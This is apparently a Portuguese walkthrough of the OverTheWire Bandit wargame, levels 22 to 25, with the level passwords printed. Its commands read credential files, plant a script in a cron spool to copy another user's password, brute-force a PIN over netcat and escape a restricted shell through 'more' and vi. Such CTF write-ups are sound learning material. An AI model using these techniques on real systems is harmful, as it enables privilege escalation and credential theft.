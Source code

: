 Um poquinho de leitura de código resolve seu trabalho:

```bash
myname=bandit23
cat /tmp/$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

----------------------
##Level 23

Mesma coisa no início, olho no cronjobs_bandit24.  
Você pode ver no script que ele executa que ele procura arquivos em uma determinada pasta e executa tudo que estiver la a todo minuto  
Então é simples!

```bash
cd /var/spool/bandit24
echo "cat /etc/bandit_pass/bandit24 > /tmp/n00bsb.bandit24" > script.sh
chmod +x script.sh
# agora basta esperar virar para o próximo minuto e
cat /tmp/n00bsb.bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
-----------------------
##Level 24

Brute Force!

```bash
for i in {0000..9999}; do
   echo  "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"; done | netcat localhost 30002 | grep bandit25
```

Dentro do loop geramos a lista com a senha do level 24 combinada com todas as combinações de 4 dígitos possíveis, e depois de pronta, jogamos essa lista via pipe pro netcat.  
Pode ser preciso rodar o comando algumas vezes, porque aparentemente o daemon não aguenta a pressão, mas é só insistir duas ou três vezes q vai dar certo.

------------------------------
##Level 25

Essa eu apanhei muito. O shell do usuário bandit26 parece ser diferente, e é.  
Para passar desse nível, você deve redimensionar seu terminal, conforme a imagem abaixo:  

![Screenshot from 2016-03-16 16-01-04](../../img/Screenshot-from-2016-03-16-16-01-04-300x61.png)  

Ao dar enter, você vai se deparar com um "more"

![Screenshot from 2016-03-16 16-01-40](../../img/Screenshot-from-2016-03-16-16-01-40-300x87.png)  
O truque aqui é dar fallback do more para o vi!  
Digite esc, depois **v**.  
O arquivo será aberto no vi. Agora você só precisa digitar esc, e depois: **e: /etc/bandit_pass/bandit26** e enter.  
O arquivo bandit26 aparecerá com a senha.

```
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

Como o level 27 ainda não existe, acabamos de bater o desafio BANDIT do Overthewire!!
